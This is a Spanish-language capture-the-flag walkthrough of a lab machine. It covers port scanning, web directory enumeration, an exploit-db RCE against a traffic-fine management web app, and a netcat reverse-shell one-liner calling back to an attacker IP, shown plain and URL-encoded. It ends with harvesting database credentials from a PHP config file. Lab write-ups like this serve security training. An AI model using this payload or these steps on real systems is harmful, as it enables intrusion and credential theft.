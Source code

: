 
# scanner

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Como vemos el puerto 445 que habitualmente esta asignado al servicio SMB en este caso hay un servidor web apache. Se trataría por tanto de
de un ***virtual host*** del tipo puerto (port virtual-host)

# enumeracion
## servidor web en puerto 80

```
/admin                (Status: 301) [Size: 312] [--> http://10.10.210.74/admin/]
/shadow               (Status: 200) [Size: 25]                                  
/passwd               (Status: 200) [Size: 25] 
```

- En /admin hay un fichero ("id_rsa") que contiene un string que parece una clave privada (VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE)
- En /shadow hay lo que parece un base64 (bm90IHRoaXMgZWFzeSA6RA==). Decodificado: not this easy :D
- En /passwd hay otro string que parece estar codificado en base64 (bm90IHRoaXMgZWFzeSA6RA==). Resulta que es el mismo que el anterior

## servidor en puerto 445
```
/management           (Status: 301) [Size: 322] [--> http://10.10.210.74:445/management/]
```
Si pinchamos en el boton "login" nos lleva a un formulario de identificacion. La pagina parece pertenecer a un sistema de administracion de las
multas de trafico (Traffic Offense Management System). Buscando en exploit-db vemos que este proyecto tiene varias vulnerabilidades. Entre ellas hay
dos tipo RCE (que es el tipo que se menciona en la presentacion de la maquina)
Utilizamos el exploit     que tenemos que corregir primero, porque sino no funciona. Asi obtenemos un  ***webshell***. Ojo es un webshell no un autentico
shell (lo que realmente estamos ejecutando es un parametro en el navegador). Para obtener un verdadero shell tenemos que ejecutar un payload. En este caso el elegido es rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.62.57 4455 >/tmp/f que solo funciona codificado uRL:
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.11.62.57%204455%20%3E%2Ftmp%2Ff
Asi obtenemos un reversed shell. Lo estabilizamos. Tenemos tres usuarios mas con shell:
1. root
2. ubuntu
3. El otro

Este ultimo es el que contiene el flag, pero no podemos leerlo porque no tenemos permisos
Nos vamos al sitio web (/usr/www/). donde hay dos directorios:
1. 80
2. 445: En este hay varios directorios y ficheros. El mas interesante es "initialize.php" que contiene los siguiente:

```
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```
donde podemos ver el usuario y el password:
tms_user:Password@123
